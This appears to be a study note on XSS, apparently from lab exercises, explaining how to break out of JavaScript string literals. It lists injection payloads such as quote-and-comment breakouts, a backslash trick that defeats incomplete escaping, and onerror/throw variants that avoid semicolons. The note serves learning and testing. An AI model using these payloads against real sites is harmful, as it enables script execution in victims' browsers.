 
Breaking out of a JavaScript string

In cases where the XSS context is inside a quoted string literal, it is often possible to break out of the string and execute JavaScript directly. It is essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing.



Examples : 

'-alert(document.domain)-'

';alert(document.domain)// 



XSS into a JavaScript string with angle brackets HTML encoded

';alert(1)// 

' to escape out of string, ; to end the current instruction(remember we are inside script tag)

// to terminate rest of part to avoid errors in script otherwise it wont execute



Some applications attempt to prevent input from breaking out of the JavaScript string by escaping any single quote characters with a backslash. A backslash before a character tells the JavaScript parser that the character should be interpreted literally, and not as a special character such as a string terminator. In this situation, applications often make the mistake of failing to escape the backslash character itself. This means that an attacker can use their own backslash character to neutralize the backslash that is added by the application.



';alert(document.domain)//           gets converted to:  \';alert(document.domain)// 



\';alert(document.domain)//         which gets converted to: \\';alert(document.domain)// 

Here, the first backslash means that the second backslash is interpreted literally, and not as a special character. This means that the quote is now interpreted as a string terminator, and so the attack succeeds. 



XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

\';alert(document.domain)//





```js
<script>onerror=alert;throw 1337</script>
```

If semir colons filtered then use {} to create a block of code 

```js
<script>{onerror=alert}throw 1337</script>

<script>throw onerror=alert,'some string',123,'haha'</script>

```
